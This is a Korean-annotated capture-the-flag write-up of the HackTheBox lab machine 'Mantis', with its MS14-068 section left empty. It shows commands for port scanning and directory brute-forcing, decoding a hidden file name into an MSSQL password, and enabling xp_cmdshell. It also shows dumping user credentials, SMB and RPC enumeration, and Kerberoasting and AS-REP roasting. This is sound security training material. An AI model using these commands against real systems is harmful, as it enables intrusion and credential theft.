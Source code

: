 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# file name decrypt : 6d2424716c5f53405f504073735730726421
echo -n "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d

# hash find / https://md5hashing.net/hash_type_checker : m$$ql_S@_P@ssW0rd!
echo -n "6d2424716c5f53405f504073735730726421" | xxd -r -p
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/465c02373b516278293589f23352beb9_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/bd6f445def888058e877f5ca9abbd8c3_MD5.jpeg)
### MSSQL 
```bash
# mssql 접근
impacket-mssqlclient admin@10.129.110.72

# rce permission error로 불가
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# DB 조사
SELECT name FROM sys.databases

# 테이블 조사
use database
SELECT * FROM INFORMATION_SCHEMA.TABLES

# 컬럼 조사
SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord'

# 데이터 얻기 / James : james@htb.local : J@m3s_P@ssW0rd!
SELECT UserName, Email, Password FROM blog_Orchard_Users_UserPartRecord
```

![](/assets/images/posts/2025-03-22-Mantis/f70eda358256e33f8bc51f87a38dd1ee_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/182a7b0de707875646da84310c2f5f70_MD5.jpeg)
### SMB
```bash
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --shares
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --users
```
![](/assets/images/posts/2025-03-22-Mantis/727355dbf012cad50ded1b4832834d16_MD5.jpeg)

### RPC
```bash
# S-1-5-21-4220043660-4019079961-2895681657-1103
rpcclient -U htb.local/james%'J@m3s_P@ssW0rd!' 10.129.109.198
```
![](/assets/images/posts/2025-03-22-Mantis/d84c6aca78d1e451b3048f4743b6eb3f_MD5.jpeg)

### MS14-068
```bash

```
### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http

sudo impacket-GetUserSPNs -request -dc-ip 10.129.110.72 htb.local/james
impacket-GetNPUsers -dc-ip 10.129.110.72 -request -outputfile hashes.asreproast htb.local/james

mount -t cifs -o rw,username=james,password= '//10.129.110.72/<폴더명>' /mnt
```